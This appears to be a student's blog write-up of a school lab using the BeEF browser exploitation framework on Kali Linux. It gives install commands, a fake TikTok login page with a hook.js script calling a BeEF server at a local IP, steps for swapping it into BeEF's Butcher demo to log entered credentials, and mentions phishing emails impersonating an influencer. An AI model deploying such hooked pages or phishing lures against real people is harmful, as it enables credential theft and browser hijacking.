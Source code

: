 ```yaml
---
layout: post
title: "Beef XSS"
date: "2023-12-01"
categories: [school-projects]
published: true
video: 890690983
---
```


Beef XSS, short for Browser Exploitation Framework, is a powerful tool used by ethical hackers and security professionals to test the vulnerability of web applications. It allows security experts to assess the security of a website by simulating real-world attacks that exploit vulnerabilities in the user's browser.

The primary goal of a Beef XSS attack is to inject malicious scripts into web pages that are then executed by the victim's browser. Unlike traditional XSS attacks, Beef XSS goes beyond stealing cookies or session tokens; it enables attackers to take control of the victim's browser and use it as a platform for launching further attacks.

This guide outlines steps to perform ethical hacking and phishing simulations using Kali Linux, Beef XSS, and VMware. The project involves assessing web application vulnerabilities and simulating phishing attacks.

In the guide we will be going over the following, Beef XSS, changing the Butcher page, and sending my phishing email impersonating a TikTok influencer.
For this example, I will be using kali Linux that I installed onto my MacBook, with the target browser my on VMware.

## I. Setting Up Beef XSS

**Step 1: Beef Install**

***Update the system***  

```markdown
sudo apt-get update && sudo apt-get upgrade 
```
***Install Beef-XSS*** 

```markdown
sudo apt install beef-XSSall Beef XSS “
```

**step 2: config –**

***Open the Beef config.yaml file*** 

```markdown
sudo nano /etc/beef-xss/config.yaml
```
***Update credentials and set the host for HTTP.***

***Save and exit (Ctrl + X, then Y).***

**Step 3:  operating** 

```markdown
Sudo ./ beef
```

After it starts go to the Ui panel a link should appear or it will automatically load for you.

<br>

## II. Phishing Simulation

Now for my example Instead of creating a separate html page and having the target need to open our html page or redirect them to the butcher site, we are going to edit the butcher page to fit our needs and send out a phishing email to ourselves. 

NOTE: because we are editing the butcher page we will be able to log all inputs and activity while the target is on our page we will also be able to send this email to anyone on our network and redirect them to our hook off of beefs already running Apache server.
For my next part I will  be using my already fake phishing emails directed at small business impersonating a tic Tok influencer. 

I asked chat gpt to create me a simple login page similar to TikTok’s for my personal website, it did not disappoint.

```markdown

<!DOCTYPE html>
<html lang="en">
<head>
    <script src="http://192.168.4.97:3000/hook.js"></script>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Tik Tok</title>
    <style>
        
        body {
            font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif;
            background-color: #fff;
            text-align: center;
            margin: 0;
            padding: 0;
            display: flex;
            justify-content: center;
            align-items: center;
            height: 100vh;
        }

        .login-container {
            max-width: 400px;
            width: 100%;
            padding: 20px;
            box-sizing: border-box;
            border-radius: 8px;
            box-shadow: 0 0 10px rgba(0, 0, 0, 0.1);
        }

        img {
            width: 100px;
            margin-bottom: 20px;
        }

        input {
            width: 100%;
            padding: 10px;
            margin: 8px 0;
            box-sizing: border-box;
            border: 1px solid #ccc;
            border-radius: 4px;
        }

        button {
            background-color: #00a4ef;
            color: #fff;
            padding: 10px 15px;
            border: none;
            border-radius: 4px;
            cursor: pointer;
            font-size: 16px;
        }

        button:hover {
            background-color: #0077cc;
        }
    </style>
</head>
<body>
    <div class="login-container">
        <img src="tik_tok.jpg" alt="TikTok Logo">
        <h2>Login</h2>
        <form action="your_login_handler.php" method="post">
            <input type="text" id="username" name="username" placeholder="Username" required>
            <input type="password" id="password" name="password" placeholder="Password" required>
            <button type="submit">Log In</button>
        </form>
    </div>
</body>
</html>

```

I currently have the following hook.js script enabling this page to reach out and talk to my beef server the following script gets place inside the head tag on our html page.

```markdown
<script src="http://192.168.4.97:3000/hook.js"></script>
```

Here is the following video on how to add our new page and replace the butcher page.
The process is fairly simple my video is at double speed, with the most important being.

- Use elevated privileges to go into beefs extension directory 

```markdown
sudo su
```
Index.Html in the butcher directory is the page we want to edit the full file path is as follows to get their you need to a super user.

```markdown
Cd /usr/share/beef-xss/extensions/demos/html/butcher
```

Note: There is one script we wish to keep in the index.html page                                            

```markdown
<script src="jquery-1.12.4.min.js"></script>                                                                                       
```
this script handles the events and logs it back to the beef logs monitoring everything we do on our page, The second important part is to remove our address from our own hook.js script in our header because we are now in the root directory and do not need to let beef know were to go. Our new script should look like  

The rest of the video quickly goes over sending the hook to my VMware station from my machine, and shows the same java code being used in the butcher page to log our credentials and monitor our activity while on the page, then runs thru a couple of examples with my fishing email I made for my other project


<br>

<div style="padding:56.25% 0 0 0;position:relative;"><iframe src="https://player.vimeo.com/video/890861426?badge=0&amp;autopause=0&amp;quality_selector=1&amp;player_id=0&amp;app_id=58479" frameborder="0" allow="autoplay; fullscreen; picture-in-picture" style="position:absolute;top:0;left:0;width:100%;height:100%;" title="beef Project - Made with Clipchamp"></iframe></div><script src="https://player.vimeo.com/api/player.js"></script